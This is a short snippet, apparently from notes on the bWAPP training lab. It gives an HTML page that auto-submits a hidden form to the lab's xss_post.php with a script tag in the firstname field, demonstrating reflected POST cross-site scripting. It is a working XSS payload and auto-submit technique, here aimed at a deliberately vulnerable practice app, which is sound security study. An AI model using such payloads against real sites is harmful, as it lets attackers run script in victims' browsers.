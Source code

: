 Code to reflected POST XSS:

<!DOCKTYPE html>
<html>
	<head>
		<title>Reflectes POST XSS</title>
	</head>
	<body onload="document.myform.submit()">
		<form action="http://192.168.1.152/bWAPP/xss_post.php" method="POST" name="myform">
			<input type="hidden" name="firstname" value="<script>alert('Success?');</script>">
			<input type="hidden" name="lastname" value="XSS">
		</form>
	</body>
</html>